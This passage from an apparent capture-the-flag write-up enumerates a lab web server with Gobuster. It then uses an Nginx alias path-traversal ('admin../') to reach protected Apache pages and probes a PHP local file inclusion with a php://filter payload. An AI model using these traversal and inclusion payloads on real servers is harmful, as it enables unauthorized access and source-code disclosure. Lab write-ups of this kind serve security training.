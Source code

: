 The initial scan showed that it was an **Nginx** server, so it looks like there is a proxy that forwards to this Apache web server.

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.249 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It does not find interesting directories, but it seems like that any path containing the word _"admin"_ results in the HTTP status code _401 Unauthorized_.

This indicates that the _location_ statement in the **Nginx configuration** is vulnerable to a [Local File Inclusion misconfiguration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx#alias-lfi-misconfiguration).

A common directory in Apache is the _server-status_ directory, which can be accessed by using the LFI misconfiguration:
```
http://10.10.10.249/admin../server-status
```

This page is leaking some more pages like _/admin_staging_ which is also asking for authorization, but can still be accessed by using the same vulnerability:
```
http://10.10.10.249/admin../admin_staging/
```

![Dashboard on admin_staging](pikaboo_web-1.png)

### Exploiting Admin Dashboard

When browsing through the menus, they are all called through _index.php_:
```
http://10.10.10.249/admin../admin_staging/index.php?page=dashboard.php
```

This could have another **Local File Inclusion** vulnerability and can be tested by using a PHP filter:
```
http://10.10.10.249/admin../admin_staging/index.php?page=php://filter/convert.base64-encode/resource=dashboard.php
```
